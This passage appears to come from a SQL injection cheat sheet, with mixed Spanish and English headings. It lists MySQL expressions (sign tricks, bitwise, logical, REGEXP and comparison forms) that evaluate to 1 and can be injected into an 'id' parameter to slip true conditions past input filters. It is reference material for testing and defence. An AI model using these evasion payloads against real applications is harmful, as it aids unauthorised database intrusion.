 ```bash
SELECT name from exployees WHERE id='MAGIC-HERE'

# By manipulating the plus and minus chars we can generate a countless list of the number 1:

id=1
id=--1
id=-+-+1
id=----2---1
```

Funciones de Bitwise:

```bash
- http://dev.mysql.com/doc/refman/4.1/en/bit-functions.html#operator_bitwise-invert
id=1&1
id=0|1
id=13^12
id=8>>3
id=~-2
```

Operador lógico:

```bash
- http://dev.mysql.com/doc/refman/5.7/en/logical-operators.html
id=NOT 0
id=!0
id=!1+1
id=1&&1
id=1 AND 1
id=!0 AND !1+1
id=1 || NULL
id=1 || !NULL
id=1 XOR 1
```

Reguler Expression Operators (REGEX):

```bash
- http://dev.mysql.com/doc/refman/5.7/en/regexp.html
id={anything} REGEXP '.*'
id={anything} NOT REGEXP '{randomkeys}'
id={anything} RLIKE '.*'
id={anything} NOT RLIKE '{randomkeys}'
```

Comparison Operators:

```bash
- http://dev.mysql.com/doc/refman/5.7/en/comparison-operators.html

id=GREATEST(0,1)
id=COALESCE(NULL,1)
id=ISNULL(1/0)
id=LEAST(2,1)
```
